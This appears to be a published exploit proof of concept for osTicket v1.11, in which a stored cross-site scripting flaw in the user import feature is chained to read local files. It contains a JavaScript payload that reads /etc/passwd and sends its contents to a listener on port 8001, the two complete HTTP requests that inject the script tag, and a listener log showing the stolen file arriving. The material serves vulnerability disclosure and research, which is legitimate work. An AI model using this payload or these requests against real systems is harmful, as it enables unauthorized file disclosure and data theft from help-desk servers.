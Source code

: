 EXP
---

    # Exploit Title: osTicket v1.11 - Cross-Site Scripting to Local File
    Inclusion
    # Date: 09.04.2019
    # Exploit Author: Özkan Mustafa Akkuş (AkkuS) @ehakkus
    # Contact: https://pentest.com.tr
    # Vendor Homepage: https://osticket.com
    # Software Link: https://github.com/osTicket/osTicket
    # References: https://github.com/osTicket/osTicket/pull/4869
    #             https://pentest.com.tr/exploits/osTicket-v1-11-XSS-to-LFI.html
    # Version: v1.11
    # Category: Webapps
    # Tested on: XAMPP for Linux
    # Description: This is exploit proof of concept as XSS attempt can
    # lead to an LFI (Local File Inclusion) attack at osTicket.
    ##################################################################
    # PoC

    # There are two different XSS vulnerabilities in the "Import"
    field on the Agent Panel - User Directory field. This vulnerability
    causes a different vulnerability. The attacker can run the malicious
    JS file that he uploads in the XSS vulnerability. Uploaded JS files
    can be called clear text. Therefore, attackers do not have to use
    a different server to perform an attack. Then it is possible to
    create "Local File Inclusion" vulnerability too.

    The attacker can upload a JS file as follows.
    ------------------------------------------------------------------

    function readTextFile(file)
    {
        var rawFile = new XMLHttpRequest();
        rawFile.open("GET", file, false);
        rawFile.onreadystatechange = function ()
        {
            if(rawFile.readyState === 4)
            {
                if(rawFile.status === 200 || rawFile.status == 0)
                {
                    var allText = rawFile.responseText;
                    allText.src = 'http://localhost:8001' +
    rawFile.responseText;
                    document.body.appendChild(allText);
                }
            }
        }
        rawFile.send(null);
    }

    readTextFile("/etc/passwd");

    ------------------------------------------------------------------

    # Smilar JS File Link;

    /upload/file.php?key=y3cxcoxqv8r3miqczzj5ar8rhm1bhcbm
    &expires=1554854400&signature=be5cea87c37d7971e0c54164090a391066ecbaca&id=36"

    After this process, we can run the JS file in XSS vulnerability.


    # Our First Request for XSS to LFI;
    ------------------------------------------------------------------

    POST /upload/scp/users.php?do=import-users
    Host: localhost
    Content-Type: multipart/form-data; boundary=---------------------------[]


    -----------------------------[]
    Content-Disposition: form-data; name="__CSRFToken__"

    8f6f85b8d76218112a53f909692f3c4ae7768b39
    -----------------------------[]
    Content-Disposition: form-data; name="pasted"


    -----------------------------[]
    Content-Disposition: form-data; name="import"; filename="users-20190408.csv"
    Content-Type: text/csv

    <script src="
    http://localhost/4/osTicket-v1.11/upload/file.php?key=y3cxcoxqv8r3miqczzj5ar8rhm1bhcbm&expires=1554854400&signature=be5cea87c37d7971e0c54164090a391066ecbaca&id=36
    "></script>

    -----------------------------[]--




    # Our Second Request for XSS to LFI;
    ------------------------------------------------------------------
    POST /upload/scp/ajax.php/users/import HTTP/1.1
    Host: localhost

    __CSRFToken__=8f6f85b8d76218112a53f909692f3c4ae7768b39&pasted=%3Cscript+src%3D%22http%3A%2F%2Flocalhost%2F4%2FosTicket-v1.11%2Fupload%2Ffile.php%3Fkey%3Dy3cxcoxqv8r3miqczzj5ar8rhm1bhcbm%26expires%3D1554854400%26signature%3Dbe5cea87c37d7971e0c54164090a391066ecbaca%26id%3D36%22%3E%3C%2Fscript%3E&undefined=Import+Users
    ------------------------------------------------------------------


    # After sending XSS requests,
    # When the attacker listens to port 8001, he/she will receive a request as
    follows.

    root@AkkuS:~# python -m SimpleHTTPServer 8001
    Serving HTTP on 0.0.0.0 port 8001 ...
    127.0.0.1 - - [09/Apr/2019 11:54:42] "GET / HTTP/1.1" 200 -
    127.0.0.1 - - [09/Apr/2019 11:54:42] "GET
    /root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin...[More]
